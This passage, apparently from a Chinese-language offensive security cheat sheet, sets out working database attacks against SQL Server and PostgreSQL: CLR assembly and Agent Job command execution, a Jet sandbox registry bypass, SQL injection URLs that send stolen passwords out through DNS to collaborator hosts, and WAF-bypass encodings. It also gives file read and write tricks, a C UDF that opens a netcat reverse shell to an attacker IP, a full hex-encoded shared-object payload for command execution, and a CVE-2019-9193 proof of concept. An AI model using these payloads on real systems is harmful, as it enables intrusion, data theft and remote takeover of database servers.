            process.BeginOutputReadLine();
            stdError = process.StandardError.ReadToEnd();
            process.WaitForExit();
        }
        catch (Exception e)
        {
            SqlContext.Pipe.Send(e.Message);
        }
        if (process.ExitCode == 0)
        {
            SqlContext.Pipe.Send(stdOutput.ToString());
        }
        else
        {
            var message = new StringBuilder();
            if (!string.IsNullOrEmpty(stdError))
            {
                message.AppendLine(stdError);
            }
            if (stdOutput.Length != 0)
            {
                message.AppendLine("Std output:");
                message.AppendLine(stdOutput.ToString());
            }
            SqlContext.Pipe.Send(bin + command + " finished with exit code = " + process.ExitCode + ": " + message);
        }
        return stdOutput.ToString();
    }
}
```
##### 获取sql语句
在生成的sql文件中得到字节流的创建语句
```sql
CREATE ASSEMBLY [CLRS]
    AUTHORIZATION [dbo]
    FROM 0x4D5A9000030000...
    ...
    WITH PERMISSION_SET = UNSAFE;
```
##### 开启CLR配置
```sql
//开启CLR
sp_configure 'clr enabled', 1
GO
RECONFIGURE
GO
//将数据库标记为可信
ALTER DATABASE master SET TRUSTWORTHY ON;
```
##### 导入程序集
```sql
CREATE ASSEMBLY [CLRS]
    AUTHORIZATION [dbo]
    FROM 0x4D5A90000300000004000000FFFF0000B8000000000000004000000000000000000000000000000000000000000000000000000000020000008000000000000000000000
    ...
    ...
    WITH PERMISSION_SET = UNSAFE;
```
##### 创建存储过程
```sql
CREATE PROCEDURE [dbo].[runningexec]
@cmd NVARCHAR (MAX)
AS EXTERNAL NAME [CLRS].[StoredProcedures].[Runexec]
go
```
##### 执行命令
```
exec dbo.runningexec 'whoami'`

Running command
nt service\mssql$sqlexpress
nt service\mssql$sqlexpress
```
#### Agent Job代理作业
1. 目标服务器必须开启了MSSQL Server代理服务；
1. 服务器中当前运行的用户账号必须拥有足够的权限去创建并执行代理作业；
```sql
exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT';//开启Agent Job
USE msdb; 
EXEC dbo.sp_add_job @job_name = N'test_powershell_job1' ;
EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'powershell.exe calc.exe', @retry_attempts = 1, @retry_interval = 5 ;
EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1'; 
EXEC dbo.sp_start_job N'test_powershell_job1';
```
#### 沙盒执行命令
##### 利用条件

- 拥有DBA权限
- sqlserver服务权限为system
- 服务器拥有jet.oledb.4.0驱动

沙盒提权的原理就是jet.oledb（修改注册表）执行系统命令。数据库通过查询方式调用mdb文件，执行参数，绕过系统本身自己的执行命令，实现mdb文件执行命令

```sql
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0/关闭沙盒

select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\dnary.mdb','select shell("whoami")')
```

### Some Tricks

[原文](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)
Payloads Test On MSSQL 2019、2017、2016SP2。

#### DNS带外
`fn_xe_file_target_read_file()`,`fn_get_audit_file()`, `fn_trace_gettable()`

##### fn_xe_file_target_read_file()

`https://vuln.app/getItem?id= 1+and+exists(select+*+from+fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select+pass+from+users+where+id=1)%2b'.064edw6l0h153w39ricodvyzuq0ood.burpcollaborator.net\1.xem',null,null))`
**权限**：在服务器上需要“VIEW SERVER STATE”权限。

##### fn_get_audit_file()
`https://vuln.app/getItem?id= 1%2b(select+1+where+exists(select+*+from+fn_get_audit_file('\\'%2b(select+pass+from+users+where+id=1)%2b'.x53bct5ize022t26qfblcsxwtnzhn6.burpcollaborator.net\',default,default)))`
**权限**：需要CONTROL SERVER权限
##### fn_trace_gettable()
`https://vuln.app/getItem?id=1+and+exists(select+*+from+fn_trace_gettable('\\'%2b(select+pass+from+users+where+id=1)%2b'.ng71njg8a4bsdjdw15mbni8m4da6yv.burpcollaborator.net\1.trc',default))`
**权限**：需要CONTROL SERVER权限

#### 替换报错表达式

以下函数会触发类型错误
- SUSER_NAME()
- USER_NAME()
- PERMISSIONS()
- DB_NAME()
- FILE_NAME()
- TYPE_NAME()
- COL_NAME()
ORI:`https://vuln.app/getItem?id=1'+AND+1=@@version--`
New:`https://vuln.app/getItem?id=1'%2buser_name(@@version)--`

#### 获取存储过程执行结果,查询配置是否开启

1. 创建一个具有相同类型字段的表
1. 执行存储过程将结果插入创建表中
1. 从表中查询对应结果
```sql
--查询配置
drop table mdconfig;create table mdconfig(a varchar(max),b int,c int,d int,e int)
insert mdconfig exec sp_configure
select b from mdconfig where a = 'xp_cmdshell'

--xp_cmdshell结果
drop table md32;create table md32(a varchar(max))
insert md32 exec xp_cmdshell 'whoami'
select a from md32
```
#### 格式化数据

- for xml  需要指定模式(手动添加根节点)
- for json
#### for json
**联合查询:**
`https://vuln.app/getItem?id=-1'+union+select+null,concat_ws(0x3a,table_schema,table_name,column_name),null+from+information_schema.columns+for+json+auto--`


**报错注入:**(基于错误的向量需要别名或名称，因为不能将两者的表达式输出格式化为JSON。)
`https://vuln.app/getItem?id=1'+and+1=(select+concat_ws(0x3a,table_schema,table_name,column_name)a+from+information_schema.columns+for+json+auto)--`
#### 读取本地文件
##### OpenRowset()
```sql
--开启OpenRowSet()
exec sp_configure 'show advanced options',1
reconfigure
exec sp_configure 'Ad Hoc Distributed Queries',1
reconfigure
```
```sql
--OpenRowset()
select * from OpenRowset('sqloledb','server=aaaa.dnslog.cn;uid=sa;pwd=sa','')
```
**联合查询:**  
`https://vuln.app/getItem?id=-1+union+select+null,(select+x+from+OpenRowset(BULK+’C:\Windows\win.ini’,SINGLE_CLOB)+R(x)),null,null`  
**报错注入:**  
`https://vuln.app/getItem?id=1+and+1=(select+x+from+OpenRowset(BULK+'C:\Windows\win.ini',SINGLE_CLOB)+R(x))--`  

**权限:** BULK选项需要ADMINISTER BULK OPERATIONS或ADMINISTER DATABASE BULK OPERATIONS权限。

#### 爆出当前SQL语句
当前执行的SQL语句可以从`sys.dm_exec_requests`和 `sys.dm_exec_sql_text`中查询
`https://vuln.app/getItem?id=-1%20union%20select%20null,(select+text+from+sys.dm_exec_requests+cross+apply+sys.dm_exec_sql_text(sql_handle)),null,null`  

**权限**：如果用户在服务器上具有“查看服务器状态”权限，则该用户将在SQL Server实例上看到所有正在执行的会话；否则，用户将仅看到当前会话。
### BypassWAF
1. 非标准的空白字符：%C2%85 или %C2%A0,空白字符: 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
[https://vuln.app/getItem?id=1…union…select null,@@version,null--](https://vuln.app/getItem?id=1%C2%85union%C2%85select%C2%A0null,@@version,null--)
2. 科学（0e）和十六进制（0x）表示法，用于混淆UNION：
[https://vuln.app/getItem?id=0eunion+select+null,@@version,null--](https://vuln.app/getItem?id=0eunion+select+null,@@version,null--)
[https://vuln.app/getItem?id=0xunion+select+null,@@version,null--](https://vuln.app/getItem?id=0xunion+select+null,@@version,null--)
3. 在FROM和列名之间用点代替空格：
[https://vuln.app/getItem?id=1+union+select+null,@@version,null+from.users--](https://vuln.app/getItem?id=1+union+select+null,@@version,null+from.users--)
4. SELECT和一次性列之间的\N分隔符：
[https://vuln.app/getItem?id=0xunion+select\Nnull,@@version,null+from+users--](https://vuln.app/getItem?id=0xunion+select%5CNnull,@@version,null+from+users--)
5. IIS+sqlserver: IBM 编码bypass

```http
POST /test/a.aspx?%C8%85%93%93%96%E6%96%99%93%84= HTTP/1.1 
Host: target 
User-Agent: UP foobar 
//Content-Type: application/x-www-form-urlencoded; charset=ibm037
x-up-devcap-post-charset: ibm500 或者ibm037
Content-Length: 40 

%89%95%97%A4%A3%F1=%A7%A7%A7%A7%A7%A7%A7


1.添加HTTP头 x-up-devcap-post-charset来表明使用的字符集，代替charset字段  
2.添加UserAgent： UP xxx  
3.参数键值都要编码  
```
6. 百分号%:在ASP+IIS时,单独的%会被忽略,绕过关键字,`sel%ect * from admin`.
7. %u:asp+iis,aspx+iis,对关键字的某个字符进行Unicode编码.
- [Postgresql利用](#postgresql利用)
  - [0x01 读文件](#0x01-读文件)
  - [0x02 写文件](#0x02-写文件)
  - [0x03 命令执行](#0x03-命令执行)
    - [编程语言扩展](#编程语言扩展)
    - [低于8.2版本以下](#低于82版本以下)
    - [大于8.2版本](#大于82版本)
  - [0x04 DNS外带](#0x04-dns外带)
  - [CVE-2019-9193](#cve-2019-9193)
      - [利用条件](#利用条件)
  - [CVE-2018-1058](#cve-2018-1058)
## Postgresql利用
### 读文件
1. 创建数据表把读到的文件copy入表
```sql
drop table wooyun;
CREATE TABLE wooyun(t TEXT);
COPY wooyun FROM '/etc/passwd';
SELECT * FROM wooyun limit 1 offset 0;
```
2. 利用postgresql大对象处理来读文件
```sql
Select lo_import('/etc/passwd',12345678);
select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a
```
### 写文件
1. 普通文件写入
```sql
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```
2. 二进制文件写入(利用大数据对象)
首先创建一个OID作为写入的对象,然后通过0,1,2,3…分片上传但是对象都为12345最后导出到/tmp目录下,收尾删除OID
```sql
SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('7f454c4...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('0000000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('f604000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('0000000...7400', 'hex'));
SELECT lo_export(12345, '/tmp/test.so');
SELECT lo_unlink(12345);
```
### 命令执行
#### 编程语言扩展
postgresql从8.3开始支持多种编程语言扩展 [链接](https://www.postgresql.org/docs/8.3/xplang.html)  
查看支持的命令:  
```postgresql
select * from pg_language;
```
#### 低于8.2版本以下
可以直接调用/lib/libc.so.6或者是/lib64/libc.so.6
```sql
CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE C STRICT;
CREATE FUNCTION system(cstring) RcETURNS int AS '/lib64/libc.so.6', 'system' LANGUAGE C STRICT;
select system('id');
```
#### 大于8.2版本
当postgresql版本高于8.2存在安全机制无法调用系统libc.so.6所以需要自己利用UDF进行命令执行,支持python的话可以用UDF进行利用 [链接](http://drops.xmd5.com/static/drops/tips-6449.html)  
但一般默认只支持C语言,所以一般使用C编写一个恶意SO文件上传进行命令执行.  
[SQLMAP提供的C源码](https://github.com/sqlmapproject/udfhack/blob/master/linux/lib_postgresqludf_sys/lib_postgresqludf_sys.c)  
**示例**:
```C
#include "postgres.h"
#include "fmgr.h"
#include <stdlib.h>

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

text *exec()
{
    system("nc -e /bin/bash vpsIPaddress 2333");
}
```
然后利用大数据对象上传时,需要每块分成2048字节进行上传,因为在高版本的postgresql中,不足2048的会被0默认填充,导致so文件异常从而函数创建失败,但最后一块无所谓,末尾加0无影响.  
**分割so脚本:**  
```python
#~/usr/bin/env python 2.7
#-*- coding:utf-8 -*-
import sys
from random import randint
number = randint(1000, 9999)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print "Usage:python " + sys.argv[0] + "inputfile"
        sys.exit()
    fileobj = open(sys.argv[1],'rb')
    i = 0
    t = -1
    s = ''
    for b in fileobj.read():
        i = i + 1
        s += b
        if i % 4096 == 0:
            t = t + 1
            print 'insert into pg_largeobject values ({number}, {block}, decode(\'{payload}\',\'hex\'));\n'\
                    .format(number=number, block=t, payload=s)
            s = ''
    fileobj.close()
```
**利用语句:**
```sql
SELECT lo_create(9023);

insert into pg_largeobject values (9023, 0, decode('7f454c4602010100000000000000000003003e0001000000000d0000000000004000000000000000e8210000000000000000000040003800070040001a00190001000000050000000000000000000000000000000000000000000000000000004c140000000000004c1400000000000000002000000000000100000006000000f81d000000000000f81d200000000000f81d200000000000d802000000000000e00200000000000000002000000000000200000006000000181e000000000000181e200000000000181e200000000000c001000000000000c00100000000000008000000000000000400000004000000c801000000000000c801000000000000c80100000000000024000000000000002400000000000000040000000000000050e5746404000000cc11000000000000cc11000000000000cc110000000000006c000000000000006c00000000000000040000000000000051e574640600000000000000000000000000000000000000000000000000000000000000000000000000000000000000100000000000000052e5746404000000f81d000000000000f81d200000000000f81d200000000000080200000000000008020000000000000100000000000000040000001400000003000000474e550052705bc9352a28aa252e8edf0fbc5d4c32e634e800000000030000001a00000002000000070000008440030810890c99880c008dc84400001a0000002100000026000000325e541ea868be124245d5ec2e67541eaa5fbe12bae3927c5f4de3214aad229d32a1f45bd871581cb88df10e25681b32c60da6d4ead3ef0e6637d3ed339268fe000000000000000000000000000000000000000000000000000000000000000003000900580b0000000000000000000000000000de00000012000000000000000000000000000000000000000901000012000000000000000000000000000000000000001c00000020000000000000000000000000000000000000007601000012000000000000000000000000000000000000006f01000012000000000000000000000000000000000000003a0100001200000000000000000000000000000000000000d60000001200000000000000000000000000000000000000110100001200000000000000000000000000000000000000fb0000001200000000000000000000000000000000000000690100001200000000000000000000000000000000000000010000002000000000000000000000000000000000000000c500000010000000000000000000000000000000000000009800000012000000000000000000000000000000000000006301000012000000000000000000000000000000000000000101000012000000000000000000000000000000000000003f0100001200000000000000000000000000000000000000f500000012000000000000000000000000000000000000005d0100001200000000000000000000000000000000000000320100001200000000000000000000000000000000000000610000002000000000000000000000000000000000000000380000002000000000000000000000000000000000000000520000002200000000000000000000000000000000000000dd00000010000000000000000000000000000000000000002d0100001200000000000000000000000000000000000000e300000012000b00d20e0000000000000800000000000000bc00000012000b00850e0000000000004d000000000000008601000010001600d0202000000000000000000000000000b300000012000b007d0e0000000000000800000000000000ec00000012000b00da0e000000000000c3000000000000009901000010001700d82020000000000000000000000000005001000012000b003b1000000000000031010000000000001801000012000b009d0f00000000000008000000000000008300000012000b00ed0d00000000000030000000000000008d01000010001700d02020000000000000000000000000001000000012000900580b00000000000000000000000000002101000012000b00a50f0000000000008e000000000000007500000012000b00e50d00000000000008000000000000001600000012000c006c1100000000000000000000000000004701000012000b00331000000000000008000000000000009f00000012000b001d0e0000000000006000000000000000005f5f676d6f6e5f73746172745f5f005f696e6974005f66696e69005f49544d5f64657265676973746572544d436c6f6e655461626c65005f49544d5f7265676973746572544d436c6f6e655461626c65005f5f6378615f66696e616c697a65005f4a765f5265676973746572436c61737365730050675f6d616769635f66756e6300746578745f7074725f746f5f636861725f707472006d616c6c6f63006368725f7074725f746f5f746578745f7074720070675f66696e666f5f7379735f657865630070675f6465746f6173745f646174756d0073797374656d0070667265650070675f66696e666f5f7379735f6576616c00706f70656e006667657473007265616c6c6f63007374726e6370790070636c6f73650070675f66696e666f5f7379735f62696e6576616c00666f726b00737973636f6e66006d6d617000776169747069640070675f66696e666f5f7379735f66696c657265616400666f70656e00667365656b006674656c6c0066636c6f7365006672656164006c6962632e736f2e36005f6564617461005f5f6273735f7374617274005f656e6400474c4942435f322e322e3500000000000200', 'hex'));
insert into pg_largeobject values (9023, 1, decode('0200000002000200020002000200020002000000000002000200020002000200020002000000000002000000020001000100010001000100010001000100010001000100010001000100010001000000010001007c0100001000000000000000751a6909000002009e01000000000000f81d2000000000000800000000000000b00d000000000000001e2000000000000800000000000000700d000000000000101e2000000000000800000000000000101e200000000000d81f20000000000006000000040000000000000000000000e01f200000000000060000000c0000000000000000000000e81f20000000000006000000150000000000000000000000f01f20000000000006000000160000000000000000000000f81f200000000000060000001700000000000000000000001820200000000000070000000200000000000000000000002020200000000000070000000300000000000000000000002820200000000000070000000500000000000000000000003020200000000000070000000600000000000000000000003820200000000000070000000700000000000000000000004020200000000000070000000800000000000000000000004820200000000000070000000900000000000000000000005020200000000000070000000a00000000000000000000005820200000000000070000002200000000000000000000006020200000000000070000000b00000000000000000000006820200000000000070000000c00000000000000000000007020200000000000070000000d00000000000000000000007820200000000000070000000e00000000000000000000008020200000000000070000000f0000000000000000000000882020000000000007000000100000000000000000000000902020000000000007000000110000000000000000000000982020000000000007000000120000000000000000000000a02020000000000007000000130000000000000000000000a82020000000000007000000140000000000000000000000b02020000000000007000000170000000000000000000000b82020000000000007000000180000000000000000000000c02020000000000007000000190000000000000000000000c820200000000000070000002900000000000000000000004883ec08488b057d1420004885c07405e8c30000004883c408c30000000000000000000000000000ff3582142000ff25841420000f1f4000ff25821420006800000000e9e0ffffffff257a1420006801000000e9d0ffffffff25721420006802000000e9c0ffffffff256a1420006803000000e9b0ffffffff25621420006804000000e9a0ffffffff255a1420006805000000e990ffffffff25521420006806000000e980ffffffff254a1420006807000000e970ffffffff25421420006808000000e960ffffffff253a1420006809000000e950ffffffff2532142000680a000000e940ffffffff252a142000680b000000e930ffffffff2522142000680c000000e920ffffffff251a142000680d000000e910ffffffff2512142000680e000000e900ffffffff250a142000680f000000e9f0feffffff25021420006810000000e9e0feffffff25fa1320006811000000e9d0feffffff25f21320006812000000e9c0feffffff25ea1320006813000000e9b0feffffff25e21320006814000000e9a0feffffff25da1320006815000000e990feffffff25d21320006816000000e980feffff488d05d0132000488d3dc2132000554829f84889e54883f80e77025dc3488b05b41220004885c074f25dffe00f1f4000488d0599132000488d3d92132000554829f84889e548c1f8034889c248c1ea3f4801d048d1f875025dc3488b158f1220004885d274f25d4889c6ffe20f1f4000803d5913200000752748833d7712200000554889e5740c488d3d82102000e82dffffffe868ffffff5dc6053013200001f3c30f1f4000662e0f1f84000000000048833d50102000007426488b05271220004885c0741a55488d3d3a1020004889e5ffd05de957ffffff0f1f8000000000e94bffffff488d05c4030000c355534889fb508b17c1ea028d6afc8d7d014863ffe84afeffff4863d5488d73044889c74889d1f3a4c60410005a5b5dc341544983ccff4c89e15531ed4088e8534889fbf2ae48f7d1488d7903e812feffff4889df4889c24c89e14088e84889def2ae4889df48f7d18d048d0c0000004c89e189024088e8f2ae488d420448f7d14c01e14889c74889d0f3a45b5d415cc3488d0528030000c341554154554889fd5351488b7f20e8a8fdffff4889c74889c3e86dfdffff4989c44889c7e832fdffff4c89e74189c5e8d7fcffff483b5d2074084889dfe809feffff5a5b5d415c4489e8415dc3488d05cf020000c34157415641554154555352488b7f20e852fdffff4889c7e81afdffffbf000400004889c5e84dfdffffbf010000004989c4e840fdffff488d35690200004889efc600004889c331ede869fdffff4989c54c89eabe080000004c89e7e8c6fcffff4885c0743931c04c89e74883c9fff2ae4889df48f7d14c8d71ff468d7c35004963f7e80ffdffff488d3c284963d64c89e64889c34963efe82afcffffebb24c89efe870fcffff803b007405c6442bff00584889df5b5d415c415d415e415fe953fdffff488d0500020000c341545553488b7f20e88efcffff4989c48b28e824fdffff85c07907b801000000eb677555c1ed02bf1e000000e8dafcffff83ed04488d70ff4531c94863ed4531c031ff488d042e48f7d6b921000000ba070000004821c6e8cffbff', 'hex'));
insert into pg_largeobject values (9023, 2, decode('ff4883f8ff4889c374b6498d7424044889ea4889c7e886fbffffffd3eb0eba0100000031f689c7e854fcffff31c05b5d415cc3488d0566010000c341574989ff41564155415455534883ec28488b7f20e8ebfbffff488d7c240f488d3524010000b911000000f3a44889c7e8a0fbffff488d350b0100004889c74989c4e81efcffff4885c04889c3744431f6ba020000004889c7e8c7fbffff4889dfe87ffbffff31d231f64889c54889df4189c5e8adfbffff8d7d014863ffe892fbffff4885c04989c675144889dfe8f2faffff41c6471c0131c0e9830000004889d9ba010000004863f54889c7e8c3faffff4889dfe8cbfaffff8d7c2d014863ffe84ffbffff31d24889c34139d58d04127e23418a041688c183e00fc0e9048a44040f83e10f8a4c0c0f88445301880c5348ffc2ebd548984889dfc6040300e8b1fbffff4889df4889c5e846faffff4c89f7e83efaffff4c89e7e836faffff4889e84883c4285b5d415c415d415e415fc34883ec084883c408c300000000000000000000007200726200303132333435363738394142434445460000000000000000000000010000000100000001000000010000001c0000008a0300006400000020000000400000000100000001000000011b033b680000000c000000b4f9ffff8400000019fcffffac00000021fcffffc400000051fcffffec000000b1fcffff1c010000b9fcffff3401000006fdffff6c0100000efdffff84010000d1fdffffcc010000d9fdffffe401000067feffff140200006ffeffff2c0200001400000000000000017a5200017810011b0c070890010000240000001c00000028f9ffff80010000000e10460e184a0f0b770880003f1a3b2a33242200000000140000004400000065fbffff080000000000000000000000240000005c00000055fbffff3000000000410e108602410e188303440e20670e18410e10410e08002c000000840000005dfbffff6000000000420e108c02480e188603460e208304024c0e18410e10420e0800000000000014000000b40000008dfbffff08000000000000000000000034000000cc0000007dfbffff4d00000000420e108d02420e188c03410e208604440e288305410e30790e28410e20410e18420e10450e0800140000000401000092fbffff080000000000000000000000440000001c01000082fbffffc300000000420e108f02420e188e03420e208d04420e288c05410e308606410e388307410e4002a60e38440e30410e28420e20420e18420e10420e081400000064010000fdfbffff0800000000000000000000002c0000007c010000edfbffff8e00000000420e108c02410e188603410e20830402860e18410e10420e0800000000000014000000ac0100004bfcffff0800000000000000000000004c000000c40100003bfcffff3101000000420e108f02450e188e03420e208d04420e288c05410e308606410e388307440e600315010e38410e30410e28420e20420e18420e10420e080000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000', 'hex'));
insert into pg_largeobject values (9023, 3, decode('00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b00d000000000000700d0000000000000000000000000000101e20000000000001000000000000007c010000000000000c00000000000000580b0000000000000d000000000000006c110000000000001900000000000000f81d2000000000001b0000000000000008000000000000001a00000000000000001e2000000000001c000000000000000800000000000000f5feff6f00000000f00100000000000005000000000000005006000000000000060000000000000060020000000000000a00000000000000aa010000000000000b00000000000000180000000000000003000000000000000020200000000000020000000000000028020000000000001400000000000000070000000000000017000000000000003009000000000000070000000000000070080000000000000800000000000000c00000000000000009000000000000001800000000000000feffff6f000000005008000000000000ffffff6f000000000100000000000000f0ffff6f00000000fa07000000000000f9ffff6f000000000300000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000', 'hex'));
insert into pg_largeobject values (9023, 4, decode('181e20000000000000000000000000000000000000000000960b000000000000a60b000000000000b60b000000000000c60b000000000000d60b000000000000e60b000000000000f60b000000000000060c000000000000160c000000000000260c000000000000360c000000000000460c000000000000560c000000000000660c000000000000760c000000000000860c000000000000960c000000000000a60c000000000000b60c000000000000c60c000000000000d60c000000000000e60c000000000000f60c0000000000004743433a2028474e552920342e382e3520323031353036323320285265642048617420342e382e352d31362900002e7368737472746162002e6e6f74652e676e752e6275696c642d6964002e676e752e68617368002e64796e73796d002e64796e737472002e676e752e76657273696f6e002e676e752e76657273696f6e5f72002e72656c612e64796e002e72656c612e706c74002e696e6974002e74657874002e66696e69002e726f64617461002e65685f6672616d655f686472002e65685f6672616d65002e696e69745f6172726179002e66696e695f6172726179002e6a6372002e646174612e72656c2e726f002e64796e616d6963002e676f74002e676f742e706c74002e627373002e636f6d6d656e74000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b000000070000000200000000000000c801000000000000c80100000000000024000000000000000000000000000000040000000000000000000000000000001e000000f6ffff6f0200000000000000f001000000000000f0010000000000006c00000000000000030000000000000008000000000000000000000000000000280000000b000000020000000000000060020000000000006002000000000000f0030000000000000400000002000000080000000000000018000000000000003000000003000000020000000000000050060000000000005006000000000000aa0100000000000000000000000000000100000000000000000000000000000038000000ffffff6f0200000000000000fa07000000000000fa07000000000000540000000000000003000000000000000200000000000000020000000000000045000000feffff6f02000000000000005008000000000000500800000000000020000000000000000400000001000000080000000000000000000000000000005400000004000000020000000000000070080000000000007008000000000000c0000000000000000300000000000000080000000000000018000000000000005e000000040000004200000000000000300900000000000030090000000000002802000000000000030000000a0000000800000000000000180000000000000068000000010000000600000000000000580b000000000000580b0000000000001a0000000000000000000000000000000400000000000000000000000000000063000000010000000600000000000000800b000000000000800b00000000000080010000000000000000000000000000100000000000000010000000000000006e000000010000000600000000000000000d000000000000000d0000000000006c04000000000000000000000000000010000000000000000000000000000000740000000100000006000000000000006c110000000000006c1100000000000009000000000000000000000000000000040000000000000000000000000000007a000000010000000200000000000000801100000000000080110000000000004c0000000000000000000000000000001000000000000000000000000000000082000000010000000200000000000000cc11000000000000cc110000000000006c00000000000000000000000000000004000000000000000000000000000000900000000100000002000000000000003812000000000000381200000000000014020000000000000000000000000000080000000000000000000000000000009a0000000e0000000300000000000000f81d200000000000f81d0000000000000800000000000000000000000000000008000000000000000000000000000000a60000000f0000000300000000000000001e200000000000001e0000000000000800000000000000000000000000000008000000000000000000000000000000b2000000010000000300000000000000081e200000000000081e0000000000000800000000000000000000000000000008000000000000000000000000000000b7000000010000000300000000000000101e200000000000101e0000000000000800000000000000000000000000000008000000000000000000000000000000c4000000060000000300000000000000181e200000000000181e000000000000c001000000000000040000000000000008000000000000001000000000000000cd000000010000000300000000000000d81f200000000000d81f0000000000002800000000000000000000000000000008000000000000000800000000000000d200000001000000030000000000000000202000000000000020000000000000d000000000000000000000000000000008000000000000000800000000000000db000000080000000300000000000000d020200000000000d0200000000000000800000000000000000000000000000001000000000000000000000000000000e00000000100000030000000000000000000000000000000', 'hex'));
insert into pg_largeobject values (9023, 5, decode('d0200000000000002d00000000000000000000000000000001000000000000000100000000000000010000000300000000000000000000000000000000000000fd20000000000000e900000000000000000000000000000001000000000000000000000000000000', 'hex'));

SELECT lo_export(9023, '/tmp/testeval.so');


执行命令：
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/tmp/testeval.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;

select sys_eval('id');

drop function sys_eval;
```
### DNS外带
1. 开启dblink扩展  
`CREATE EXTENSION dblink`  
2. 外带语句  
`SELECT * FROM dblink('host='||(select user)||'.f27558c1f94c0595.xxxxx.xx user=someuser dbname=somedb', 'SELECT version()') RETURNS (result TEXT);`
### CVE-2019-9193

##### 利用条件

- 版本9.3-11.2
- 超级用户或者pg_read_server_files组中的任何用户

9.3-11.2版本中存在一处“特性”,由于9.3增加一个“COPY TO/FROM PROGRAM”功能.这个功能就是允许数据库的超级用户以及pg_read_server_files组中的任何用户执行操作系统命令,管理员或具有“COPY TO/FROM PROGRAM”权限的用户,可以使用这个特性执行任意命令。  
**POC:**  
```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```
### CVE-2018-1058
